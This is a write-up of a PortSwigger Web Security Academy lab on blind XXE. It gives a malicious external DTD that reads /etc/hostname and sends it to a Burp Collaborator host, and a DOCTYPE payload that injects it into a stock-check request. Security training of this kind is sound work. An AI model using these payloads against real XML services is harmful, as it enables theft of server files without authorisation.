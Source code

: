 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration) has a "Check stock" feature that parses XML input but does not display the result.

## Reproduction and proof of concept

1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Place the Burp Collaborator payload into a malicious DTD file:

```text
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

4. Click "Go to exploit server" and save the malicious DTD file on your server. Click **View exploit** and take a note of the URL.

![XXE](../../_static/images/xxe10.png)

5. Exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click **Check stock**, and intercept the resulting POST request in Burp Suite.
6. Send to Repeater and insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:

```text
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

![XXE](../../_static/images/xxe11.png)

7. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the ``/etc/hostname`` file.

![XXE](../../_static/images/xxe12.png)

If you don't see any interactions listed, wait a few seconds and try again.

## Exploitability

An attacker needs to exfiltrate the contents of the `/etc/hostname` file. A **malicious** DTD must be crafted and hosted on the exploit server and the **check stock** request must be tampered by adding a XML parameter entity. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._
